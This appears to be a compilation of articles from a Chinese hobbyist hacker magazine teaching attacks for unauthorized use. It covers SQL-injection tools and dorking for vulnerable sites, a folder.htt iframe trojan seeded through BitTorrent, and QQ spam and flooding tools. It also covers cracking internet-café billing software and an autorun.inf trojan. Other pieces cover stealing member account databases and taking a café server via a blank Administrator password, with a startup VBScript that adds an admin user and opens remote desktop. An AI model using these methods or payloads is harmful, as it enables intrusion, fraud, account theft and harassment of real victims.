### 3. 啊D注入工具

描述该工具界面友好、受欢迎，并配有操作界面截图。


### 4. SQL注入的神话——NBSI

该节强调 NBSI 功能强、扫描与分析能力完整，支持在可能存在注入点的 URL 上继续深入分析；并讨论了 post/get 方式、效率与日志痕迹等实战注意事项。

就一目了然。而 post 则可以传输任何大小的数据，当然效率会低一点。但有个好处是日志没有 get 方式那么明显。对平时的使用上而言，强烈建议使用 post 方式，牺牲一点速度换取安全是值得的！当然，post 方式有时候会无法检测出来，这时候也只好改用 get 方式了！还有一个特征字符是这样的：当你输入 and 1=1 和 and 1=2 时，也许不一定有前面那么经典的页面出来，但是一旦发现了这两个页面有所不同的时候，也就是发现突破点的时候！……另外介绍一个经验，因为俺们都是穷人，没有钱买正版。而破解版使用的时候经常会出错，比如页面传输错误，是否重传。这时候点重传会依然出错，所以直接点否。而且 NBSI 多个版本里，911 破解版在使用时最稳定……


图9

### 5. 试图超越 NBSI 的 HDSI

最近才知道的这款工具，而且截至目前还在继续开发中，所以是免费使用的一款工具，没有任何限制。除了 NB 有的那些功能外，HDSI 还加入了旁注（以后我们会提到）、webshell 管理、PHP 的注入等功能，可以说非常强大。……在使用上，和 NB 如出一辙，而且有些在 NB 和啊D 检测不出来的时候，HDSI 可以检测出来。不过 HDSI 由于在测试阶段，所以也有不少 BUG。http://www.hdsi2005.com 是它的老家……


图10

### 6. 其他 SQL 注入工具

SQL 注入技术成熟了以后，大多的人都有自己的工具出炉了。像什么 PHP 和 ASP 做出的 SQL 工具有，像 21CN 的浪心的冰舞，明小子的旁注人工具，以及一些有名无名的人写的工具，其余的就不详细介绍了。

看着眼前五花八门的 SQL 注射工具，唐僧等人玩玩这个、弄弄那个，一个个都显得那么好奇和新鲜。悟空看着也讲不了什么了，于是便开口说道：“马克思老人家说过，理论和实践结合才能发挥作用，这堂课教大家一点，如何找到有漏洞的网站来学习和练手！Google Hacking！”

“狗狗会咬？”唐僧刚手摸了摸自己的光头。

悟空：“Google 是全球最大的搜索引擎，可以用来搜索我们想得到的任何资料！当然，一旦我们发现了某个系统存在上传、数据库、SQL 注入漏洞的任何一个，我们只需要搜索到使用该系统的网站，就可以直接使用发现的漏洞入侵了！”

八戒听了口冷气，大声抗议：“俺抗议！他们那个都是东北活菜鸟，哪个会找漏洞啊！再说，我们没有你这样高的智慧。”


图11

悟空一拳头砸过去：“呆子！又不是要你去发现漏洞，国内的安全小组越来越多，动不动就是一个什么安全小组又成立了，他们发现了某些漏洞后，会公布在自己的网站上。举个例子，我们随便在 X 的论坛上找个友情链接：http://www.cnbct.org/（Bug Center Team 漏洞中心小组）然后看看首页，如图11。”

甚至还有当天公布的漏洞呢！然后呢，随便搜一个版权声明，比如 powered by 什么的，就可以找到一堆使用该系统的网站了。……假设苹果树论坛出了漏洞，找 powered by 很费劲，试试搜索显示人气的“在线人数统计”“生长着一棵古老的苹果树”这种特别的句子，一搜就是几十页！

八戒又开始流口水了：“猴哥，苹果树什么时候出漏洞啊，咱也去摘个尝尝鲜。”

悟空道：“呵呵，这个俺就不知道了。不过俺要说的是，现在教会你们三个漏洞，是目前网站入侵最常见的基本漏洞。这些漏洞每一个都威力惊人，要组合在一起就更加不得了。一旦熟练掌握了每一种技巧，就相当于打通了任督二脉……休息之后马上回来，精彩在继续，请看下期的综合运用篇——防不胜防的旁注入攻击。”

（本文涉及到的工具绝大多为破解版，WED 和 WIS、啊D 注入工具、HDSI、黑X专用版、NBSI，光盘有收录）

# 小鸡快跑

### 发质王

前几天同学说中毒了，叫我去看看。我过去先问问他怎么中的，他说用 BT 下了个电影，打开就这样了。下电影也能中毒？我记得没听说过什么播放器软件能溢出啊，顶多是老的 Winamp 播放列表文件能溢出。那么……莫非是 BT？新出的漏洞？但是也没见过这方面的漏洞啊，到底是怎么办到的呢？我盯着文件夹里才下载的电影，莫非……

废话少说，先把病毒清了再说。几分钟之后，一个垃圾病毒让我大失所望，这明显是之前中的网页木马，根本和 BT 无关，中毒都中得这么没水准……

虽说清除了这个病毒，但是回去后 BT 的影子一直缠在我的脑子里：BT 怎么下马？电影？文件？文件夹……等等，文件夹？BT 是可以把一个文件夹做成一个种子的。对，就是它了！我们就要让这个文件夹带上木马！

让我们先来做个实验，随便找个文件夹，在里边点右键“自定义文件夹”如图1。然后“下一步”，选择“自定义”，并勾选“选择或编辑该文件夹的 HTML 模板”，在模板类型中选择“标准”，并选中“编辑该模板”，点击下一步就会打开一个名为“Folder”的文本文件。随便来点吧，如图2。保存退出后刷新这个文件夹就能见效了，如图3。


现在大家很清楚了吧，只要写个网页木马到 folder.htt 里，我们就可以为所欲为了。并且 Windows 对本地的网页要放得宽松一点，也就是说有些已经失效的网页木马在这儿一样能用。

不过我对网页木马没什么研究，就随便找个比较新的 SP2 网页木马吧，如图4。先按说明配置好木马，我这里用的一个模拟病毒，卡巴基大叔看见了会叫的哦，然后随便找个免费空间传上去就算完成了。再来编辑我们的 folder.htt，在里边插入一段 iframe：

```html
<iframe src="http://www.xxx.com/xx.htm" width="0" height="0" frameborder="0"></iframe>
```

然后打开这个文件夹，啊呜，是不是好可爱的小病毒出来了啊？整个界面变得惨不忍睹，如图6。接下来的事儿就简单了，随便找个热门的电影动画什么的，复制到文件夹里，用 BitComet 之类的软件做成种子，如图7。


传到大点的 BT 网站上去就 OK 了。不过这样做的话会多出 desktop.ini 文件和 Folder Settings 目录，稍微细心点的人就会起疑心，所以我们还要改进一下。打开 desktop.ini，是不是看见一句 `PersistMoniker=file://Folder Settings\Folder.htt` 啊？对，就是这句话使 folder.htt 生效的。我们可以把 folder.htt 放到电影目录下，再改个名字，比如“更多精彩请点击.htm”，然后在 desktop.ini 里指向这个文件。这样整个文件夹就只多出一个 desktop.ini，很多文件夹里都会有这个文件，所以一般人也不会注意到。

然后再加点网站快捷方式、广告啊什么的来障眼，混在里边就更不容易看出了，文件小的话再压缩一下也行，这样下载时更没办法看出来，并且一般人都会解压整个文件夹再打开，所以效果是一样的。

再有关于放什么木马，那就是个人的爱好了，你喜欢鸽子也行，你爱盗 QQ 我也不拦着你。不过虽说《黑客 X 档案》出了 N 多木马防杀的文章，但对于广大菜鸟同志们还是有一定难度，所以我特地拜托朋友 conicGod 做了个 5 分钟免杀黑洞 2005 的动画，通俗教给大家，简单易学，一看就懂，乃居家旅行、杀人放火之必备……

另外，我在一些资料上看到“在 Windows XP 中的‘自定义文件夹’中没有相应的选项对模板进行编辑，而且直接编辑其中的 folder.htt 文件也无效。这时候我们可以曲线救国：先在 Windows 2000 中按以上方式建立一个文件夹，然后把该文件夹整体复制到 Windows XP 中即可”，但是实际我在 XP 及 2003 下测试时发现只有 `IconAreaImage=FolderSettings\Background.jpg` 这样的设置文件夹背景的参数有效，而指向的 folder.htt 等文件根本无法执行，希望高手赐教。最后祝大家肉鸡成群，鸡蛋满天飞！

## 我的QQ地盘，我做主

### 欣欣

### 一、QQ等级绝对快

首先运行你想登录的 QQ，再按“CTRL+ALT+DEL”进入任务管理器，删除进程里一个名为 TIMPlatform.exe 的进程，然后再运行第 2 个 QQ 程序……如果挂多个 QQ，可能会有一个 QQ 经常下线，需要反复上线。

### 二、减少QQ内存占用

随着 QQ 功能越来越多，占用资源也越来越多。可通过任务管理器找到 TIMPlatform.exe 并结束，或在安装目录中处理 TIMPlatform 与 TIMProxy.dll 等相关文件，以减少自动加载带来的内存占用。

### 三、QQ组件安装我做主

QQ 提供了较多附加组件，可按需安装。文中提到通过 QQ2005 狂人 DIY 版可实现组件自定义安装，减少不必要功能，缩小体积并提升使用效率。


图1

### 四、刷Q币技巧

文中介绍了通过象棋对弈与电脑配合的方式在 QQ 游戏中提高胜率，从而获得更多游戏币并兑换 Q 币的思路与步骤。

### 五、MYIM疯狂挂机

介绍使用 MYIM 进行多 QQ 挂机的方法：先下载安装软件，创建并登录 MYIM 账户，在账户管理器中批量添加 QQ 账号并设置保存密码、自动登录等，实现集中管理和同时在线。

（软件地址：http://www.myim.cn/download.php）安装后可批量添加 QQ 账户。通过账户管理器选择服务类型、填写账号、设置登录选项，可连续添加多个账号。文中还提到 MYIM 在消息窗口整合、自定义表情支持等方面的体验。


图2


图3

（本文涉及到的工具：QQ2005 狂人 DIY 版、MYIM，光盘有收录）

# 小鸡快跑

### 玩转QQ的小工具

#### 天涯衰草

平时我们除了用 QQ 进行聊天交流外，还能干些什么呢？也许通过下面介绍的这几个小工具，我们能把 QQ 玩出新的花样。

### 一、黑基QQ强行聊天器

经常在网上进行聊天的朋友都遇到过这样的情况：当你非常希望和某位朋友进行聊天时，他/她可能拒绝了你。这时候，只要使用黑基 QQ 强行聊天器这个小工具，就可以强行进行聊天了。使用方法比较简单：运行工具后输入对方 QQ 号码并确定。若本地同时开启多个 QQ，工具会提示选择用于临时会话的号码。该工具并非对所有版本都有效，主要适用于支持临时会话功能的版本。


图1


图2

### 二、黑基QQ广告发布机

不用多说，黑基 QQ 广告发布机的主要功能是向指定号码段发送自定义消息（如宣传产品、软件、网站等）。使用时分别输入起始号码和终止号码，点击“连接号码”后出现对话窗口；在“自定义广告消息”中输入内容并发送。也可以在连接后直接与对方聊天。若需自动批量发送，设置好号段与消息后点击发送即可。


图3

### 三、QQ轰炸机

QQ 轰炸机可以连续向对方发送消息，使对方难以招架。使用方法：定义要轰炸的号码并连接，弹出 QQ 对话框后勾选开始轰炸即可；若要停止则取消勾选。按钮“发送消息”用于手动发送单条，勾选“开始轰炸”后可自动执行。

### 四、QQ好友轰炸机

QQ 好友轰炸机与 QQ 轰炸机的区别在于：前者主要针对好友列表中的对象。先定义“轰炸消息”，打开目标好友的聊天对话框，在聊天模式下勾选集中开始轰炸即可。


图4


图5

以上就是文中介绍的几个 QQ 小工具。如果读者朋友有更好的工具，记得一起分享。（本文涉及到的黑基 QQ 强行聊天器、黑基 QQ 广告发布机、QQ 好友轰炸机等工具，光盘有收录。）

# 小鸡快跑

### 腾讯收费头像 免费用

#### Hidn

大家都知道，腾讯自 QQ2004 版起支持了自定义上传头像功能，腾讯也创立了头像商城，让大家选择各式头像，其中也不乏制作精美的。可是一个都要收 QQ 币的，而且还有 3 个月的使用期限，不过说实话腾讯做人也真不厚道……

对此，小弟我想出一招对应，还记得在 05 年 5 月那期小手册里面天涯衰草兄介绍的嗅探、下载工具 Netlines 吗？没错！就是它！

### 一、准备工具

Netlines、腾讯 QQ（2005 贺岁版以上，需支持传头像功能），一个等级到了 16 级以上（即有了太阳）或是会员的 QQ。

### 二、过程

打开 QQ，进入个人资料更改页，点击头像旁的“更改”，在“自定义头像”中选择“选择头像”，然后会连接到一个如下图1的界面。


图1


图2

然后我们打开 Netlines。注意，这时候一定要将嗅探器打开（点击下图2中的“开始下载任务”，一般 Netlines 打开后嗅探器就是默认打开的）。

接下来在自定义头像中选择“QQ头像商城”，进入头像商城首页，我们就拿第一页的这几个头像测试一下，如图3。


图3

在嗅探器的右边选择所有的 URL 为 `http://face.qq.com:80/faceitem/*/***.bmp` 的文件（* 当然为数字），然后点击 Netlines 上方“添加一个新任务”的图标，如图4。

然后等待它下载完吧，很快的。最后到 Netlines 文件所在的同一盘符下的 NL_Download 文件夹找找，看到什么？惊喜吧！如图5。


图4


图5

原理很简单吧！其实我觉得真的没什么技术含量，不过对广大没有多少 QQ 币的朋友们来说，应该是有点用处啊，能省则省嘛！

> （本文涉及到的 Netlines，光盘有收录）


# 网吧黑客

WZHPRO@JSCPU

（左栏正文）现在有好多网吧都使用了无盘系统，还有各种各样的网管软件，给我们自由上网以及下载东西带来了很多不便。看了 2004 年第 6 期杂志后，尝试通过 QQ 邮箱附件与 FlashGet 等方式下载文件，但在网吧环境中运行会被限制，出现无法正常执行、进程被结束、右键菜单功能变灰等现象。


图1


图2

（中栏正文）作者继续尝试其他方法，提到使用 TT 浏览器“旋风下载”功能可绕过部分限制；还提及通过 Outlook Express 配置邮件账户收发附件，以解决 QQ 邮箱容量与网吧限制问题，并记录了 IE 工具菜单中的相关入口与使用体验。


图3


图4

（中栏结语）文章总结：遇到网吧限制时可多尝试不同思路与工具，强调“条条大路通罗马”的方法论。

（右栏正文）作者介绍了对 PUBWIN4 管理密码破解的研究思路，提出通过“复古法”在不同版本间操作；准备工具包括 WINHEX、PUBWIN4 旧版本程序及精锐网吧辅助工具，并说明安装目录与替换执行文件时机等关键步骤。


图1

（右栏后续）后文描述先结束 RECLOCK.EXE 与 RNCLT.EXE 进程，再快速完成 PUBWIN.EXE 替换操作，强调操作窗口不能重叠与时机控制的重要性。

在选中精锐网吧辅助工具中显示的 PUBWIN.EXE 进程（深呼吸）后，快速点击终止进程。

OK！立即把 4.0 版的 PUBWIN.EXE 拖到 PUBWIN4 的安装目录窗口中，这时系统会弹出一个窗口问你是否替换，你要以最快的速度按“是”（建议直接按空格，因为系统默认焦点在“是”上）（如图2）。


图2

当你做完这一步操作后，PUBWIN4 应该会自动运行了，这时你会发现 PUBWIN 的界面已经变了，这是因为系统运行的已经是 PUBWIN 的老版本——4.0 版。

我们再运行 WINHEX，点击菜单栏上的“TOOLS”→“OPEN RAM”，在弹出的窗口中找到“PUBWIN”，展开后会出现“PRIMARY MEMORY”。

选中它后按确定就能打开 PUBWIN 的主要内存。我们查找字符：welcome_ty（如图3）。


图3

我们现在慢慢向上翻页，应该看见网吧名字就在上面，然后是服务器的 IP 地址，再上面就是管理员密码了。

以上就是我用短方法破解 PUBWIN4 管理员密码的全过程。我希望这篇文章能开阔大家的思维，而不是让大家都去网吧免费上网。如果你用本文的方法免费上网，被警察叔叔抓住了可不要怪我哦～

> （文章中涉及到的程序 WINHEX、PUBWIN4.0 版中的 PUBWIN.EXE、精锐网吧辅助工具已收录于光盘中）

## 破解网吧 Pubwin 管理程序

在一次偶然的机会，我手动破解了网吧的管理程序 Pubwin4。下面是我在 WinXP 上的破解过程；在其他 Windows 操作系统上的破解过程和在 WinXP 系统上的大同小异。我的破解思路和破解过程希望对大家有所启发。本人是菜鸟，写的这些东西也是给菜鸟看的，对于老鸟就很容易了，所以老鸟就不要看了：）

有一次去一网吧上网，我明明交了 10 元押金，可是最后结账的时候那个结账的女管理员却说我交了 5 元。我和她解释的时候，她说：“什么也不记得了，管理程序上就是这么显示的”，而且态度很是蛮横且不讲理，这件事让我很是气愤不过，于是打算教训她一下。不就是管理程序嘛，好！我就从你们的管理程序下手。这个网吧用的是 Pubwin4 管理程序，以前知道在网上有很多破解程序，不过我下载过几个都不怎么好用，有很多都不能破解。我忽然萌生了一个念头，是否可以不用程序就能破解它呢？于是我就琢磨起它的原理来。

由于它是在进入系统后才启动的，这样它的启动应该在注册表里面，只要把启动项删除，然后退出它在内存中运行着的程序，就应该能摆脱程序的控制了。顺着这一条线，我就开始了我的破解过程。


图1

启动系统后，就启动了 Pubwin4 管理程序（如图1），这时候桌面上的其他图标都无法点击，并且不显示“开始菜单”的按钮。那我们怎么进入注册表呢？虽然看不见“开始按钮”，但是都没有屏蔽 Windows 按钮，按下这个按钮，就会弹出“开始菜单”，然后点击“运行”，输入“regedit”后回车，就可以打开注册表了（也可以直接按 Windows+R 组合键调出对话框，然后打开注册表）。

由于这个红色窗口是在最上面的，为了不让管理员发现你在搞破坏活动，你最好点击“用户登录”按钮，这样到了登录对话框后它就不在最上面了（如图2），打开的其他窗口就能盖住这台登录窗口，管理员就很难发现你在干什么了，这样不容易被发现。


图2

下面就是找注册表中的键，首先找到 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`，在这个键下面有一个 Pubwin 键，不由分说，删除掉（如图3）；然后找到 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices`，在这个键下面找到 Pubwin，删除（如图4）。


图3


图4

删除这两个键后，系统的启动项都删除了，是不是就可以了呢？不行。还有一个地方，那就是所有安装程序几乎都设置的地方，这个键就是 `HKEY_LOCAL_MACHINE\SOFTWARE`。在这里，当然也不会缺少 Pubwin 的影子，这里有一个 Hintsoft，这个就是 Pubwin 程序安装到注册表中的地址……

# 网吧黑客

方，我们展开 `HKEY_LOCAL_MACHINE\SOFTWARE\Hintsoft\Pubwin` 这个键下面，无论你删除哪一个键都会不断提示错误（如图5），所以把 Pubwin 这一项全部删除（如图6）。


到这里所有该删除的项都删除了，下一步就是把 Pubwin 进程清除出内存，最简单的办法就是注销后再进入。文中还说明了在 Win98/Win2000/WinXP 上流程类似，并讨论了 U 盘驱动等情况。

由于整个破解过程都是手动完成，速度较慢；Pubwin 还有定时刷新功能。本文主要分析程序原理与手工破解过程，提醒读者勿用于破坏，并建议管理员及时修补漏洞。


现在越来越多网吧使用 Win2K/WinXP，网吧管理软件也不断升级。旧版通过“小黑软”获取密码的方法已不再适用，作者转而探索不借助工具绕过“万象网管”上网的方法。


先在图1状态下调出任务管理器（按住 Ctrl），查看并结束 `client.exe`，再开 CMD，用 `net user abc` 查看当前用户权限，并尝试 `net user abc 123` 修改密码后重新登录。


如果前述方法不成功，可继续在任务管理器中查找 `IExplorer.exe` 或 `client.exe` 相关进程进行处理，并提到利用本地提权漏洞（如 MS04-019 / MS04-020）提升权限。


锁定图1所示的桌面，然后点击“新任务”→`Explorer.exe`，点确定，如图4，桌面终于又回来了，如图5。不过这时任务管理器仍然在桌面上且鼠标还可能被锁定，我们需要再调一次任务管理器，点“取消”即可。

（图3）桌面还是没出现，别急，慢慢来，接着终止进程 `Explorer.exe`，这是加载桌面的关键程序……

怎么样，这两种方法简单吗？是不是根本不需要任何软件就能达到目的呢？在 Win2K 版下实验成功，不过可能无法在 WinXP 上调出任务管理器。


## 网络妙管家之免费上网

张明强

### 轻松卸载客户端

### 断开连接玩免费

准备一个钱少的上机卡（一般卡上显示不少于 0.5 元）。建立一个系统帐号：可用 `NET` 命令，例如创建用户并加入 administrators 组。

```bat
net user 123 123 /add
net localgroup administrators 123 /add
```

- 1. 右击网络妙管家图标，进入系统设置。  
- 2. 若无“进程”选项可按 `Ctrl+Shift+Esc` 或 `Ctrl+Alt+Delete` 调出任务管理器。  
- 3. 在用户验证中步步注销，重新登录并切换到新建帐号。  
- 4. 再次进入系统设置，可看到“卸载”按钮。  
- 5. 卸载后重启，客户端被移除。


同样先准备余额较少的上机卡。右击网上邻居，选择属性→双击本地连接→禁用（图6、图7）。这样先玩单机游戏，再重新启用网络即可继续上网，不必重启。


这里还有第三种方法：下载“网络妙管家客户端卸载程序”，运行后即可。文章来源为网络投稿。

## 网吧硬盘解锁又一招

关于在网吧中突破限制的文章有很多，方法也是层出不穷。但是有的方法非常复杂，操作起来十分不便。下面我就给大家介绍一种既简单、又方便实用的方法。


这是我偶然间发现的，我经常使用这种方法查找文件，因为它的确很实用方便！

### 让网管防不胜防

这几天，我天天在网吧中聊 QQ，无意间发现了网络硬盘这个东西。网吧不是平日禁止下载吗？我刚开始不知道这招行不行，后来发现网络硬盘里有“共享网络硬盘”选项，能将内容下载并保存到可访问目录中。


把下载下来的文件放在可访问的文件夹里，例如“网络游戏”等，之后从桌面入口访问即可看到文件。一般网管不会对该目录做还原，因此文件不会因关机或重启而消失。

在网上有很多人问我怎么破解网吧管理系统。这里介绍几种方法：对于 Win98 系统，可利用输入法与快捷键组合使管理程序失效；对于万象系统，可在注销前结束关键进程，避免其继续运行。

```cmd
kill pid1
cd c:\windows\system32\ClsMn.exe
```

执行批处理后机器可能会注销，但重启后相关程序将不再运行。也可在批处理里写入路径并结束进程。另有一些系统采用双进程互相保护，也可通过结束两个进程处理。

```cmd
kill pid1
kill pid2
```

# 网吧黑客


近来网吧有个怪癖，电脑安装了还原精灵后还要再禁止下载！……我们要充分发挥主观能动性，自己动手，丰衣足食。在电脑限制不严的情况下，可以用右键“目标另存为...”来下载文件；成功率不高时，可借助一些网站提供的在线破解功能进行下载。


嗯，怎么办呢？既然连 IE 都用不了，那就用别的“代替品”。有不少不受影响的程序，例如 QQ。把文件拖到“功能键”，对方可通过 QQ 登录后接收。还可下载“下载精灵”等小工具（可作下载工具并可解开被禁用的 ActiveX 控件）。


> **总结：** 写本文的目的不是教大家下载，而是让大家遇到类似问题时能从多方面尝试找到突破口。比如机子禁用 WinRAR，可用 WinZip 或别的替代，从而达到解压缩目的。

（文章中涉及到的工具下载精灵已收录于光盘中）


职业欠钱

放假回家，没了宿舍包年的宽带，只能忍痛去网吧……这次碰到个无盘的。打开 IE 后出现的是 `C:\WINDOWS\INDEX.HTM`，原文件代码如下：

```html
<html>
<head>
<title>...</title>
<meta http-equiv="refresh" content="0;url=http://www...">
</head>
<body>
</body>
</html>
```

“我的电脑”打开后出现如图1所示的界面。


于是明白了这是创世纪的无盘工作站……先看看它的说明，也让各位小菜明白一下什么是无盘工作站。

> 所谓无盘工作站就是终端没有硬盘、光驱、软驱等外设的工作站，所需资源由服务器调用。简单说：无盘就是“无硬盘”。

之所以打开“我的电脑”后出现那一幕，是因为每个人能用的是自己的镜像盘。对于服务器来说是一个个分开的文件夹。比如打开服务器上的 T 盘，可以看到如图2。


其中 Profiles002 就是 2 号机器的镜像文件……打开 Profiles010 可看到 history 文件夹，里面保存访问过的网站。聊天时若先登录 QQKAV视频，可减少“尾巴”，但仍可能被追踪。

## 如何开通 QQ 网络硬盘

在 QQ2004 及以后的版本中，找到网络硬盘，第一次开通后容量限制为 16M（非会员），适合紧急传输与临时存放。

# 网吧黑客


其中的 ChinaClawbd.exe 就是中国网爪了，看中它主要是因为个头小，放在 QQ 硬盘里很方便，双击后就开始下载安装了。安装完毕后程序栏出现“中国网爪”的字样，然后再用它来下载就 OK 了。有些东西下载下去后不能改地址，比如我放到 C 盘下的一个 winrar，如果想直接在地址栏输入 `C:\` 是不行的，会提示禁止访问，如图4。


那么怎么突破呢？在桌面上点右键，新建，快捷方式，结果如图5。没关系，用 Windows 按钮突破专家就好了。这个工具也是网吧必备啊，所以我放在了 QQ 硬盘的必备文件夹里。然后我们在项目位置上填 `C:\WINDOWS`。下一步，完成，然后双击看看，如图6。


按“Ctrl+A”结果提示 246 个隐藏对象。点向上，C 盘就落入我们眼底了，其他也许是一样的。到了这里，大家可别急着想做什么坏事哦！我这里只是模拟一下坏人怎么做而已！最开始的想法是在 `C:\WINDOWS\INDEX.HTM` 里写入一个东西，加个网页木马。可惜实验后发现它设了只读属性，而我又没有办法解除这个限制。

因为它的文件夹选项隐藏起来了，所以我只能用记事本打开它却改不了了。不过好在这里有写权限，大家想起什么了吗？对了，就是当年 98 系统大行天下的时候屡试不爽的 autorun.inf 入侵大法。也许现在好多朋友会用 NBSI 来进行 SQL 入侵，会用旁注工具进行上传，可是你一定记得当年的 autorun 哦。我给小菜们复习一下 autorun 的简单使用：到 `C:\` 下写一个 `autorun.inf`（新建文本后另存为，文件类型选所有 `*.*`，文件名为 `autorun.inf`，保存时保持 Windows 按钮突破专家运行着）。

```ini
[AutoRun]
open=我放的木马.exe
```

保存退出。把木马放到 C 盘根目录下后，再把 autorun.inf 和木马的属性都改为只读、隐藏、系统、存档。这样对方重启后，打开 C 盘就会运行我们的木马。当然这样做很张扬，可以说一点都不隐藏。因为才会忽然发现没办法打开 C 盘了，所以要做到隐藏的话可以考虑用 VBS 先运行木马然后再打开该盘，可惜偶不会 VBS，只会一点点 BAT，而且 BAT 会闪出个黑窗口，所以这里我就不费心思了，留给小菜朋友们去做课后习题吧！

> （本文涉及到的工具 Windows 按钮突破专家，光盘有收录）

## 盗取网吧会员帐号之法

张明强

最近郁闷，本想跑到网吧舒心一下，却发现自己的卡里只剩 0.5 元了。没钱我们也要上网，熟练地打开机子，本想倒掉网吧管理软件的客户端。它用的是网维妙管家。网吧的噩梦由此开始！首先看了看网吧主机的共享，老板竟然把 Octopus 文件设置成了共享。打开后，我的眼前真的盯在了 Oct2003 文件上：这可是放会员帐号的数据库文件！

后来在网上找工具，终于找到一个叫“辅助丘数据库浏览器”的东西，先下载再说，运行并打开 Oct2003 文件，谁知老天又和俺开了个玩笑，如图1。又在网上搜了一个叫 ACCESS 密码查看器 v1.1 特别版，我的密码是“chcwbhdx”，好快，赶快去打开数据库。呵呵，我的眼都看直了，如图2。


> （本文用到的工具 accesspass.exe、ACCESS 密码查看器 v1.1、注册机、mdb.exe，光盘有收录）

## 重返战场之网吧篇

的黑X讲的是 2000 对 2000 的弱口令，好多朋友却不知道 98 对 2000 的弱口令如何攻击，这里就要注意看了。回到我们前面的 98 访问 2000 的解释，既然是拿当前的账号去连接的话，我们可以本地做一个要登录的账号和密码并登录！打开控制面板，新建帐户 Administrator，如图3。注意密码为空（这里是利用对方的空口令，如果你知道他的密码可以修改为你的密码）。


图3

跟网吧的战争已经很久了，记得从以前的突破还原精灵到最近几个大虾的直接破解网吧管理软件来免费上网，好像从来没有结束过。我这次带来的不是这些破解，而看中的是网吧的服务器，一个网络的核心如果被拿到了，不就是控制了整个网络么？由于网吧的环境特殊，这里我会尽量不采用命令行和黑客工具，至少我不希望我的读者被拉出去一顿海扁。废话少说，既然是一次入侵，那么我们就从头开始吧！入侵的开头当然是环境的探测、信息的收集，俗称踩点。

首先介绍下我们这里的网络环境，这是环境探测很重要的一部分哦！我在哈尔滨，估计东北地区的网吧都是这样的配置。一般是还原卡，外加 Windows 98 系统。因为有还原卡，一般都不会限制下载什么的，也不会作太多限制，即使是网吧管理软件也只是拿来计费的。这样的好处是不用去破解网吧下载限制，也不会有什么杀毒软件捣乱（有也不怕，直接停掉！），并且会培养好多只会按重启键的菜鸟网管（对我们“偷成狗”很有帮助啊！）。比较经典的一点是采用 Windows 98 系统，这样好多东西都用不了。不过，没有关系哦，如何在 98 下打造自己的战场，这就是本文的重点！环境介绍完了，开始信息的收集以及目标的选取吧！

打开你桌面上的网上邻居！（没有的话随便进个盘一直点向上就到桌面了！）如图1。


图1

看到了么，有几个感兴趣的没有？基本可以确定 Fileserver 为电影服务器，Pay 为付费的主机，还有一个估计是游戏更新的服务器，我们就选游戏服务器了。其实这里选这个服务器是因为在我测试过程中发现它最薄弱，进去之后就可以作为跳板，如果是熟悉的 2000 就好办事了！好了！目标确定！现在是该对它进行进一步探测。

不要急着拿扫描器，那是没有用的，被网管发现可不要说我没有劝你啊！好多东西其实手工可以做到，比开命令行安全多了。因为环境特殊，我在后面的过程中会保持这一点。来！在你的地址栏里打上 `\\weixin\c$`，这是访问目标机器的隐藏默认共享 C 盘，当然是已经假定目标为 Windows 了，如果是 Linux 我劝你放弃。在你实际练习的时候将 weixin 换成你目标的机器名或者 IP（个人认为机器名安全又方便，如果你喜欢使用 IP 地址，也可以在命令行里 `ping 目标机器` 得到，这里不推荐），如图2。


图2

得到什么信息了？很重要的信息啊！目标机器是基于 NT 的，基本判断是 2000 以上了！而且目标的 C 盘默认共享没有删除，又可以确定对方网管不是很重视安全，我们有希望了！还有其他的信息收集就是看看网吧主页或者电影主页，也可以得到很多信息。等会儿说明得到信息做什么！

基本可以确定对方是 2000 及以上系统了。但是注意没有，这里根本没有让我们输入用户名，只是输入密码！这就是 98 的特殊性了。个人认为当时 98 是基于工作站形式设计的，没有提供网络方面太多支持，所以不能像 2000 对 2000 那样访问；它访问 2000 就是直接使用当前登录用户的用户名去远程主机访问，对方主机上没有该用户当然提示你输入密码了！这里就有个疑问，98 下能不能扫描 2000 弱口令啊？个人认为是不行的，前提是你本机的帐户跟远程要破解的 2000 帐号要一样才可以破解。只是猜想，由于安全问题没有拿网吧环境测试。继续我们的 Hacking！我们知道 2000 的最大安全隐患就是 Administrator 账号为空，无论什么时候我们要记住这一点。

建立好之后我们注销。这里遇到了小麻烦，因为这里是还原卡，并且没有注销。导入注册表又要重启，重启又要还原……用 Shift 加重启不行，用以前的建立快捷方式快速重启跳过还原卡，居然提示没有操作权限。估计还是管理软件的限制，找了好久记得以前有个超级兔子，在 98 下很好用，马上安装，打开如图4。


图4

哈哈，真让我找到一个好功能，模拟 XP 关机，梦寐以求的注销出来了！吐血推荐啊，98 下杀入越货必备良品啊！可爱的注销出来了，没什么好说的，赶快注销，用 administrator 登录！这里没有抓图，大家自己享受这一美妙时刻，因为如果漏洞真的存在的话我们就成功了！友情提示，四处看看注意网管！等什么？再次往浏览器输入 `\\weixin\c$`，看看怎么样？哈哈！漏洞存在，我们进去了！如图5。

```text
\\weixin\c$
ping 目标机器
<a href="\\weixin\c$">weixin</a>
```

注意的是！我们一直没有用命令行和扫描工具（看起来不像高手，但是够安全啊！）任何操作其实都可以手工图形界面完成。这里如果你的网吧禁止浏览器里输入 `\\weixin\c$` 这样的格式的话，可以在记事本里写上链接再点击。

# 网吧黑客


图5

跟以前的进网吧硬盘类似的！即使是 2000 对 2000 也可以这样用，不需要复杂的 `net use` 等命令，这个时候系统自己会自动建立 ipc$ 连接的！好了，我们看到他的 C 盘了，并且是 Administrator 的权限！可以做任何事了！还是先探测信息！输入 `\\weixin\c$\boot.ini` 看看，如图6。有可能拿到可爱的 3389！


图6

现在到他的 All Users 的启动目录，如图7。放个什么呢？不要太狠，写个脚本加账户开 3389 后门吧！这里给一个脚本：


图7

```vbscript
Dim fso, MyFile
Set fso = CreateObject("Scripting.FileSystemObject")
Set MyFile = fso.GetFile("C:\Documents and Settings\All Users\开始\菜单\程序\启动\run.vbe")
MyFile.Delete

Dim sh
Set sh = CreateObject("wscript.shell")
sh.run "c:\windows\system32\3389.exe",0
sh.run "c:\windows\system32\mm.exe",0
sh.run "net user jianxin jianxin /add",0
sh.run "net localgroup administrators jianxin /add",0
```

其中 3389.exe 和 mm.exe 都是不被杀的工具，2003 开 3389 不要重启。这里关键是脚本不要隐藏；如果设置为隐藏，系统可能找不到。脚本运行后会自行删除。然后等待服务器重启，再用终端工具连接，如图8。


图8

可爱的 3389，到此拿到最高权限，任务完成。很多服务器存在 Administrator 空口令等弱点，不只是网吧。前文提到的主页等信息探测，也可结合社会工程学尝试。这里仅作技术探讨，不要用于破坏。

